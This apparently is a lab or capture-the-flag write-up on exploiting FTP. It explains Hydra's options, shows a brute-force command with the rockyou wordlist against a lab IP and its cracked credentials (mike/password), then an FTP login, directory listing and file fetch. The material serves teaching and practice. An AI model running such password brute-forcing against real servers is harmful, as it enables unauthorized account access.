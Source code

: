 Hello,

I hope everyone is aware that the
FTP server will not be available 
over the weekend- we will be 
carrying out routine system 
maintenance. Backups will be
made to my account so I reccomend
encrypting any sensitive data.

Cheers,
 **==Mike==** 
226 Transfer complete.
353 bytes received in 0.00 secs (8.2109 MB/s)
ftp> 

Username = Mike

### Exploiting FTP

#### Bruteforce 

##### Hydra 

	SECTION             FUNCTION  
  
	hydra               Runs the hydra tool  
  
	-t 4                Number of parallel connections per target  
  
	-l [user]          Points to the user who's account you're trying to compromise  
  
	-P [path to dictionary] Points to the file containing the list of possible passwords  
  
	-vV                Sets verbose mode to very verbose, shows the login+pass combination for each attempt  
  
	[machine IP]       The IP address of the target machine  
  
	ftp / protocol     Sets the protocol


###### Command used 
root@ip-10-10-137-70:~# hydra -t 4 -l Mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.159.127 ftp

###### Result 
[21][ftp] host: 10.10.159.127   login:==mike==   password: ==password==
[STATUS] attack finished for 10.10.159.127 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-04-28 11:03:33

#### FTP login

 ftp 10.10.159.127 
Connected to 10.10.159.127.
220 Welcome to the administrator FTP service.
Name (10.10.159.127:root): mike
331 Please specify the password.
Password: *password*
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Apr 24  2020 ftp
-rwxrwxrwx    1 0        0              26 Apr 24  2020 ftp.txt
226 Directory send OK.
ftp> get ftp.txt -